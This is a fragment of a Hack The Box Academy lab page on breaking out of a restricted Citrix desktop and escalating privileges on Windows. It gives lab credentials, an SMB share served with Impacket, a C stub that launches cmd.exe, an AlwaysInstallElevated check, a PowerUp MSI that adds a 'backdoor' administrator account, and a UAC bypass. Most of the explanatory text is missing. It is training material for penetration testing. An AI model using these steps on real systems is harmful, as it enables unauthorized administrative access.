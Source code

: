 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/67/section/2502
// Platform Version: V1
// Module ID: 67
// Module Name: Windows Privilege Escalation
// Module Difficulty: Medium
// Section ID: 2502
// Section Title: Citrix Breakout
// Page Title: Windows Privilege Escalation
// Page Number: 24
-->

# Citrix Breakout

**Module Name:** Windows Privilege Escalation **Page Number:** 24

#### WINDOWS PRIVILEGE ESCALATION

# Citrix Breakout

```: citrixcredentials
Username: pmorgan
Password: Summer1Summer!
  Domain: htb.local
```

## Bypassing Path Restrictions

![https://academy.hackthebox.com/storage/modules/67/C_users_restricted.png](https://academy.hackthebox.com/storage/modules/67/C_users_restricted.png)

![https://academy.hackthebox.com/storage/modules/67/paint.png](https://academy.hackthebox.com/storage/modules/67/paint.png)

![https://academy.hackthebox.com/storage/modules/67/paint_flag.png](https://academy.hackthebox.com/storage/modules/67/paint_flag.png)

## Accessing SMB share from restricted environment

``` shell-session
root@ubuntu:/home/htb-student/Tools# smbserver.py -smb2support share $(pwd)

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

![https://academy.hackthebox.com/storage/modules/67/paint_share.png](https://academy.hackthebox.com/storage/modules/67/paint_share.png)

![https://academy.hackthebox.com/storage/modules/67/pwn_cmd.png](https://academy.hackthebox.com/storage/modules/67/pwn_cmd.png)

``` c
#include <stdlib.h>
int main() {
  system("C:\\Windows\\System32\\cmd.exe");
}
```

![https://academy.hackthebox.com/storage/modules/67/xcopy.png](https://academy.hackthebox.com/storage/modules/67/xcopy.png)

## Alternate Explorer

![https://academy.hackthebox.com/storage/modules/67/Explorer++.png](https://academy.hackthebox.com/storage/modules/67/Explorer++.png)

## Alternate Registry Editors

![https://academy.hackthebox.com/storage/modules/67/smallregistry.png](https://academy.hackthebox.com/storage/modules/67/smallregistry.png)

## Modify existing shortcut file

![https://academy.hackthebox.com/storage/modules/67/shortcut_1.png](https://academy.hackthebox.com/storage/modules/67/shortcut_1.png)

![https://academy.hackthebox.com/storage/modules/67/shortcut_2.png](https://academy.hackthebox.com/storage/modules/67/shortcut_2.png)

![https://academy.hackthebox.com/storage/modules/67/shortcut_3.png](https://academy.hackthebox.com/storage/modules/67/shortcut_3.png)

## Script Execution

![https://academy.hackthebox.com/storage/modules/67/script_bat.png](https://academy.hackthebox.com/storage/modules/67/script_bat.png)

## Escalating Privileges

``` cmd-session
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1


C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1
```

``` powershell-session
PS C:\Users\pmorgan\Desktop> Import-Module .\PowerUp.ps1
PS C:\Users\pmorgan\Desktop> Write-UserAddMSI
	
Output Path
-----------
UserAdd.msi
```

![https://academy.hackthebox.com/storage/modules/67/useradd.png](https://academy.hackthebox.com/storage/modules/67/useradd.png)

``` cmd-session
C:\> runas /user:backdoor cmd

Enter the password for backdoor: T3st@123
Attempting to start cmd as user "VDESKTOP3\backdoor" ...
```

## Bypassing UAC

``` cmd-session
C:\Windows\system32> cd C:\Users\Administrator

Access is denied.
```

``` powershell-session
PS C:\Users\Public> Import-Module .\Bypass-UAC.ps1
PS C:\Users\Public> Bypass-UAC -Method UacMethodSysprep
```

![https://academy.hackthebox.com/storage/modules/67/bypass_uac.png](https://academy.hackthebox.com/storage/modules/67/bypass_uac.png)

![https://academy.hackthebox.com/storage/modules/67/flag.png](https://academy.hackthebox.com/storage/modules/67/flag.png)

#### Addditional resources worth checking:

# 

# 

#### Questions

####